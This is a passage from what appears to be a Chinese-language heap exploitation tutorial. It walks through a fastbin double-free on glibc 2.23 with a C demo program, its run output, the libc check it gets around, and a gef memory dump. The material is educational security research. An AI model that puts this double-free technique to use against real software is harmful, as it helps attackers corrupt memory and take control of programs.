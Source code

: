 ```c
    char *e = malloc(9);
    char *f = malloc(9);
    strcpy(d, "DDDDDDDD");
    fprintf(stderr, "4st malloc(9) %p points to %s the first time\n", d, d);
    strcpy(e, "EEEEEEEE");
    fprintf(stderr, "5nd malloc(9) %p points to %s\n", e, e);
    strcpy(f, "FFFFFFFF");
    fprintf(stderr, "6rd malloc(9) %p points to %s the second time\n", f, f);
}
```

```text
$ gcc -g fastbin_dup.c
$ ./a.out
Allocating 3 buffers.
1st malloc(9) 0x1c07010 points to AAAAAAAA
2nd malloc(9) 0x1c07030 points to BBBBBBBB
3rd malloc(9) 0x1c07050 points to CCCCCCCC
Freeing the first one 0x1c07010.
Then freeing another one 0x1c07030.
Freeing the first one 0x1c07010 again.
Allocating 3 buffers.
4st malloc(9) 0x1c07010 points to DDDDDDDD the first time
5nd malloc(9) 0x1c07030 points to EEEEEEEE
6rd malloc(9) 0x1c07010 points to FFFFFFFF the second time
```

这个程序展示了利用 fastbins 的 double-free 攻击，可以泄漏出一块已经被分配的内存指针。fastbins 可以看成一个 LIFO 的栈，使用单链表实现，通过 fastbin->fd 来遍历 fastbins。由于 free 的过程会对 free list 做检查，我们不能连续两次 free 同一个 chunk，所以这里在两次 free 之间，增加了一次对其他 chunk 的 free 过程，从而绕过检查顺利执行。然后再 malloc 三次，就在同一个地址 malloc 了两次，也就有了两个指向同一块内存区域的指针。

libc-2.23 中对 double-free 的检查过程如下：

```c
    /* Check that the top of the bin is not the record we are going to add
       (i.e., double free).  */
    if (__builtin_expect (old == p, 0))
      {
        errstr = "double free or corruption (fasttop)";
        goto errout;
      }
```

它在检查 fast bin 的 double-free 时只是检查了第一个块。所以其实是存在缺陷的。

三个 malloc 之后：

```text
gef➤  x/15gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000021 <-- chunk a
0x602010:   0x4141414141414141  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021 <-- chunk b
0x602030:   0x4242424242424242  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000021 <-- chunk c
0x602050:   0x4343434343434343  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000020fa1 <-- top chunk
0x602070:   0x0000000000000000
```
